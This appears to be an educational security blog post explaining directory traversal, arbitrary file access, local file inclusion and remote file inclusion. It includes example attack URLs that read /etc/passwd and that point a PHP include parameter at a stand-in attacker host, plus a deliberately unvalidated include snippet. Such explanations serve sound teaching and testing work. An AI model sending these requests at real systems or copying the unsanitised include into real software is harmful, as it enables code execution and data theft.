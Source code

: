```yaml
---
title: Local file inclusion & remote file inclusion
categories: Vulnerabilities
date: 2020-02-09 
author: shiva G prasadh
published: true
---
```

 
Sometimes you might be confused when you think about the difference between Arbitrary file access, Local file inclusion and Remote file inclusion attacks. Lets discuss about the differences.  
 
### [](#header-3) Directory Traversal Attack
 
Directory traversal attacks that allowed an attacker to ‘traverse’ outside an intended directory to access a file or directory that was not intended.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../../../etc/passwd
Making this request would direct the script to traverse outside the web server document root (DOCROOT) to access the system password file (/etc/passwd).

* * * 
### [](#header-3) Arbitrary File Access
 
If the application is running with full privileges and could access any file on the system by traversal, and it only allows an attacker to read the contents of the file, not write to it or execute it as a script, It qualified to “traversal arbitrary file access”.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../tmp/shell.php
In this traversal arbitrary file access issue, the contents of shell.php will be displayed, not executed.

* * *
 
### [](#header-3) Local File Inclusion (LFI) attack
 
It often exhibit the same trait as directory traversal attacks, the attack typically involves a relative (e.g. ../../) or absolute path (e.g. &file=/path/to/file) to call a specific file on the system. The difference is in how the application handles the request. Instead of displaying the contents of the file like above, it will include the file as if it is an executable script. This means that arbitrary code, but limited to what is already on the file system, will be executed with the same privileges as the web application and/or web server.  
Basically, the difference is that with a file inclusion vulnerability, the resource is loaded and executed in the context of the current application. A directory traversal vulnerability on the other hand, only gives you the ability to read the resource.

* * *
 
### [](#header-3) Remote File Inclusion (RFI) attack
 
It allows an attacker to include a remotely hosted file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation.  
it can also lead to:  
 
Code execution on the web server
Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS) 
Denial of Service (DoS)  
Sensitive Information Disclosure
 
Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:  
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```
In this example the path is extracted from the HTTP request and no input validation is done.
```http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite/malicousURL```

